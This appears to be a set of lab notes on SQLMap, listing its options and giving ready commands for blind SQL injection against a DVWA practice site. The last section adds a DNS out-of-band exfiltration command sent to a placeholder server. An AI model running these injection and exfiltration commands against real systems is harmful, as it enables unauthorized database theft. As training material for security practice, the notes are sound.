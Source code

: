 # SQLMap

## Boolean-Based

## Time-Based

--time-sec=10

### Enumeration

--first=FIRSTCHAR   First query output word character to retrieve  
--last=LASTCHAR     Last query output word character to retrieve

### Page comparison

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "" --random-agent -p id --technique=B --string="User ID exists in the database." --not-string="User ID is MISSING from the database."
```

--regexp=REGEXP     Regexp to match when query is evaluated to True
--code=CODE         HTTP code to match when query is evaluated to True
--smart             Perform thorough tests only if positive heuristic(s)
--text-only         Compare pages based only on the textual content
--titles            Compare pages based only on their titles

### Bruteforce

For dumping hashes

```
--charset="1234567890abcdef"
```

```
--charset="1234567890ABCDEF"
```

```
--charset="1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
```

### Frequency Analysis

Brute force:
These options can be used to run brute force checks

--common-tables     Check existence of common tables

uses `sqlmap/data/txt/common-tables.txt`

--common-columns    Check existence of common columns

uses `sqlmap/data/txt/common-columns.txt`

--common-files      Check existence of common files

uses `sqlmap/data/txt/common-files.txt`

--safe-url=SAFEURL  URL address to visit frequently during testing
--safe-freq=SAFE..  Regular requests between visits to a safe URL


### Speed

Optimization:
These options can be used to optimize the performance of sqlmap

-o                  Turn on all optimization switches

--predict-output    Predict common queries output

uses `sqlmap/data/txt/common-outputs.txt`

--keep-alive        Use persistent HTTP(s) connections
--null-connection   Retrieve page length without actual HTTP response body
--threads=THREADS   Max number of concurrent HTTP(s) requests (default 1)

### DNS Exfiltration (Out-of-band SQL Injection)

TODO: Demonstrate DNS exfiltration via sqlmap in blind SQLi

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dns-domain=<dns_server_IP> -D dvwa
```